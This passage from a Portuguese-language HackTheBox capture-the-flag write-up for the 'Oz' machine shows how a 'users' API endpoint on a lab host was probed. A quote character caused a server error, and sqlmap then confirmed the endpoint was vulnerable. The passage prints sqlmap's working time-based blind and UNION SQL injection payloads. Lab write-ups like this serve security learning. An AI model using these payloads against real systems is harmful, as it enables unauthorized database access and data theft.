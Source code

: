 ```go
		scan(site)
	}
}
```

Feito isso, eu notei algo interessante quando ele chega no diretório "users", se liga:

![Untitled](Oz%20-%20HackTheBox%20Writeup%2070ece9237c34438baab3b83f5dd3cffc/Untitled%204.png)

Entrando na URL, nos deparamos com a seguinte interface:

![Untitled](Oz%20-%20HackTheBox%20Writeup%2070ece9237c34438baab3b83f5dd3cffc/Untitled%205.png)

Ao que me parece, o diretório é válido 🥳! Quando eu fui colocar um diretório aleatório para ver se ele retornava uma string aleatória que nem antes, ele retornou um JSON. Ou seja, estamos interagindo agora com a API. Ao colocar uma aspas simples para ver o que acontecia, ele nos retornou um erro 500 no servidor:

### SQL Injection. 💉

![Untitled](Oz%20-%20HackTheBox%20Writeup%2070ece9237c34438baab3b83f5dd3cffc/Untitled%206.png)

Com isso, vamos ver se o mesmo é vulnerável a SQL Injection! Rodamos o SQLMAP (não tenho saco pra fazer na mão, perdão) e ele afirmou que é um target vulnerável e aqui está o payload:

```sql
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.10.10.96:80/users/' AND (SELECT 4539 FROM (SELECT(SLEEP(5)))HnFr) AND 'oafg'='oafg

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: http://10.10.10.96:80/users/' UNION ALL SELECT CONCAT(0x716b6a6a71,0x4a5a75686a466179666c6479446b6a69414a5775566c656e4d587945655252776a6463746c517144,0x7171717871)-- -
```
